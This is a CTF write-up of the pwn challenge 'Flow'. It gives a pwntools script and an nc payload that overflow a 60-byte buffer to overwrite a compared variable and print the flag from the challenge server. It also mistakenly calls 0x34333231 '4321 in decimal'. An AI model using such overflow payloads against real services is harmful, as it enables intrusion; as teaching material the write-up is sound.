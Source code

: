 ```yaml
---
title: "Flow"
summary: "P3rf3ctr00tCTF pwn chalenge"
categories: ["P3rf3ctr00tCTF","Blog",]
tags: ["P3rf3ctr00tCTF","pwn"]
#externalUrl: ""
#showSummary: true
date: 2024-11-23
draft: false
---
```



# **Challenge Description**

- **Name:** Flow
- **Category:** pwn
- **Points:** 100
- **Challenge Description:**  
    Be like water

---

# file analysis
First I started by checking the file type using `file` command
```shell
flow: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=22e8e3a51853e485e3a36c1d5f95446782c30fee, for GNU/Linux 3.2.0, not stripped
```
From the output, the file is an ELF 64-bit, dynamically linked, and not stripped. It is built for the x86-64 architecture. Next, I executed the binary to observe its behavior.
# File execution
Upon execution, the binary prompts for user input and exits without any notable action after supplying dummy text. This behavior suggests hidden functionality, so I disassembled the binary using **Ghidra**. The disassembly revealed three key functions: `main`, `vulnerable`, and `win`.
![functions](https://gist.github.com/user-attachments/assets/656998d0-496a-44ab-9219-4e1a8f4cc1de)

The `main` function calls the `vulnerable()` function, which can call the `win()` function if specific conditions are met.
## Vulnerable()
The `vulnerable()` function accepts user input stored in a 60-byte buffer. It does not validate the input size, leaving it susceptible to buffer overflow.
![vulnerable_function](https://gist.github.com/user-attachments/assets/454f12de-e79e-48a7-90e8-f5c390393184)

Within this function:

- A variable `local_c` is initialized to `0xc` (12 in decimal).
- The program compares `local_c` to `0x34333231` (hexadecimal for "1234" in ASCII, or 4321 in decimal).

Under normal execution, this condition is never satisfied because `local_c` is initially set to `12`. However, exploiting the buffer overflow allows us to overwrite `local_c` with the target value (`0x34333231`), triggering the `win()` function.
 
 ## win()
 I proceeded to analyse the win function.
![win_function](https://gist.github.com/user-attachments/assets/9f30ad57-b5a4-44e5-95e3-1eb457ac03d6)

The `win()` function reads the contents of `flag.txt` and prints it to the screen. If the file is missing, an error message is displayed.
## Exploitation
To retrieve the flag, we need to:

1. Overflow the buffer.
2. Overwrite `local_c` with the value `0x34333231` (corresponding to the ASCII string "1234").
### using pwntools
Here’s the Python script for the exploit using **pwntools**:
```python
from pwn import *

def main():
    host = "94.72.112.248"
    port = 7001

    offset = 60
    target_value = 0x34333231  # Value to overwrite `local_c` ("1234" in ASCII)

    # Payload
    payload = b"A" * offset + p32(target_value)

    try:
        conn = remote(host, port)
      
        conn.sendline(payload)

        response = conn.recvall()
        print(f"[+] Response:\n{response.decode().strip()}")

        conn.close()
    except Exception as e:
        print(f"[!] Error: {e}")

if __name__ == "__main__":
    main()

```

Running the script successfully retrieves the flag:

```bash
└─$ python3 sol.py 
[+] Opening connection to 94.72.112.248 on port 7001: Done
[+] Receiving all data: Done (72B)
[*] Closed connection to 94.72.112.248 port 7001
[+] Response:
Enter a text please: Your flag is - r00t{fl0w_0f_c0ntr0l_3ngag3d_7391}

```
### Manual exploitation
To exploit manually:

1. Use `pwn cyclic 60` to generate a 60-character pattern.
2. Append `"1234"` to create the payload:
```shell
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaa1234
```

3. Send the payload to the server:
 ```bash
└─$ nc 94.72.112.248 7001               
Enter a text please: aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaa1234
Your flag is - r00t{fl0w_0f_c0ntr0l_3ngag3d_7391}

```

# Flag

The retrieved flag is:

`r00t{fl0w_0f_c0ntr0l_3ngag3d_7391}`

> [!NOTE]
> In the vulnerable program, the variable `local_c` is compared against the value `0x34333231`. This is the **hexadecimal representation** of the ASCII string `"1234"`. When overwriting memory, the bytes are written in **little-endian format** because the system uses the x86-64 architecture, which is little-endian by default.
> 
> In little-endian systems:
> 
> - The least significant byte (LSB) is stored first in memory.
> - For `0x34333231`, the bytes are stored as:    
> ```
> 31 32 33 34
> ```
> which corresponds to the ASCII characters:    
> ```
> "1" "2" "3" "4"
> ```
> 
> Thus, to overwrite `local_c` with `0x34333231`, the payload must contain `"1234"` in the correct byte order. If we naively sent `"4321"`, the bytes would be stored in reverse order (`0x31323334`), which would fail to meet the condition.


